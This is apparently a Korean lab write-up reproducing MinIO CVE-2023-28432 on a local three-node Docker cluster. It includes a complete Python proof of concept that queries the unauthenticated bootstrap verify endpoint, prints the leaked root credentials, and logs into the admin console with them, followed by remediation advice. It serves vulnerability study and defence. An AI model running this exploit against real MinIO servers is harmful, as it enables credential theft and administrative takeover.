



# MinIO CVE-2023-28432 실습

## 뭐가 문제인가

이번에 해 본 건 MinIO의 CVE-2023-28432이다. MinIO는 S3처럼 파일을 저장하는 서버인데, 여러 대를 묶어서 쓰는 클러스터 환경에서 예전 버전은 인증 없이 내부 환경변수를 보여 주는 문제가 있었다.

요청하는 주소는 `/minio/bootstrap/v1/verify`이다. 원래 외부에 보여 주면 안 되는 정보인데, 취약한 버전에서는 여기 응답에 `MINIO_ROOT_USER`, `MINIO_ROOT_PASSWORD`가 같이 들어온다. 결국 공격자가 관리자 계정을 알아내는 상황이다.

- CVE: [CVE-2023-28432](https://nvd.nist.gov/vuln/detail/CVE-2023-28432)
- 취약 버전: `RELEASE.2019-12-17T23-16-33Z` 이상, `RELEASE.2023-03-20T20-16-18Z` 미만
- 실습에 사용한 버전: `RELEASE.2023-02-27T18-10-45Z`
- CVSS: 7.5 (High)

## 환경 만들기

MinIO를 한 대만 실행하면 이 취약점 조건이 맞지 않아서 node1~node3, 총 3개를 띄웠다. `docker-compose.yml` 하나로 묶었고, API와 콘솔은 내 PC에서만 열리도록 `127.0.0.1`에 연결했다.

| 구분 | 값 |
| --- | --- |
| API | `http://127.0.0.1:9000` |
| 웹 콘솔 | `http://127.0.0.1:9001` |
| 테스트 계정 | `minioadmin` / `minioadmin-vulhub` |

이미 만들어진 취약 이미지에만 의존하지 않도록 Dockerfile에서 MinIO 소스를 직접 빌드하게 했다. 사용한 소스 커밋은 `9f99b56547dafb880794690bf61f4e9c56df67ed`으로 고정했다.

실행은 PowerShell에서 아래 순서로 했다. Docker Desktop이 먼저 켜져 있어야 한다.

```powershell
cd MinIO/CVE-2023-28432
docker compose down -v
docker compose up --build -d
docker compose ps
```

처음에는 빌드 시간이 좀 걸렸다. 마지막 명령에서 node1, node2, node3가 전부 `Up`으로 나오면 됐다.

## 재현

취약 조건은 생각보다 단순하다. MinIO가 클러스터 모드여야 하고, 패치 전 버전이어야 하며, 공격자가 9000 포트까지 접근할 수 있으면 된다. 로그인이나 사용자 클릭은 필요 없다.

PoC는 `poc.py`로 만들었다. 다른 라이브러리를 설치하지 않고 Python 기본 라이브러리로 POST 요청만 보냈다.

```powershell
python .\poc.py
```

제출한 `poc.py` 전체 코드는 아래와 같다.

```python
#!/usr/bin/env python3
"""Local-lab PoC for CVE-2023-28432 (MinIO cluster information disclosure)."""

import argparse
import json
import sys
import urllib.error
import urllib.request


def main() -> int:
    parser = argparse.ArgumentParser(description="CVE-2023-28432 local MinIO PoC")
    parser.add_argument("--url", default="http://127.0.0.1:9000", help="target base URL")
    args = parser.parse_args()
    url = args.url.rstrip("/") + "/minio/bootstrap/v1/verify"

    request = urllib.request.Request(url, data=b"", method="POST")
    try:
        with urllib.request.urlopen(request, timeout=10) as response:
            body = response.read().decode("utf-8")
    except urllib.error.URLError as error:
        print(f"[!] Request failed: {error}", file=sys.stderr)
        return 1

    try:
        payload = json.loads(body)
    except json.JSONDecodeError:
        print("[!] Unexpected non-JSON response:", file=sys.stderr)
        print(body, file=sys.stderr)
        return 1

    environment = payload.get("MinioEnv", payload.get("minioEnv", ""))
    if not environment:
        print("[!] The response did not contain MinioEnv; check target version and cluster state.")
        return 1
    if isinstance(environment, dict):
        leaked = [f"{key}={value}" for key, value in environment.items()
                  if key.startswith("MINIO_ROOT_")]
    else:
        leaked = [line for line in environment.split("\n")
                  if line.startswith("MINIO_ROOT_")]

    if not leaked:
        print("[!] MinioEnv was returned, but root credentials were not found.")
        return 1

    print("[+] Vulnerable endpoint returned MinIO process environment:")
    for line in leaked:
        print(f"    {line}")
    print("[+] CVE-2023-28432 reproduced.")
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

응답에서 `MinioEnv`를 읽고 `MINIO_ROOT_`로 시작하는 값만 출력하게 했다.

## 결과

PoC를 실행하자 로그인 정보가 아래처럼 바로 나왔다.

```text
[+] Vulnerable endpoint returned MinIO process environment:
    MINIO_ROOT_PASSWORD=minioadmin-vulhub
    MINIO_ROOT_USER=minioadmin
[+] CVE-2023-28432 reproduced.
```



출력된 ID와 비밀번호를 그대로 넣어서 `http://127.0.0.1:9001`에 로그인해 봤다. 아래는 PoC에서 얻은 `minioadmin` 계정을 입력한 화면이다.



로그인 후 MinIO Console에 들어갈 수 있었다. 비밀번호 노출로 끝나는 게 아니라 관리자 콘솔 접근까지 가능한 것을 확인했다.



## 대응 방법

가장 먼저 할 일은 MinIO를 `RELEASE.2023-03-20T20-16-18Z` 이상으로 올리는 것이다. 이미 취약한 버전을 썼다면 root 계정 비밀번호와 기존 접근 키도 바꿔야 한다.

그리고 9000 포트를 외부에 바로 열어 두지 않는 것도 중요하다. 꼭 필요한 서버만 접근하도록 방화벽이나 보안 그룹으로 제한하고, 비밀번호는 환경변수에 오래 두기보다 별도 Secret 관리 도구로 관리하는 게 좋다.

실습을 끝낼 때는 아래 명령으로 컨테이너와 볼륨을 지웠다.

```powershell
docker compose down -v
```

## 참고

- [NVD - CVE-2023-28432](https://nvd.nist.gov/vuln/detail/CVE-2023-28432)
- [MinIO Security Advisory](https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q)
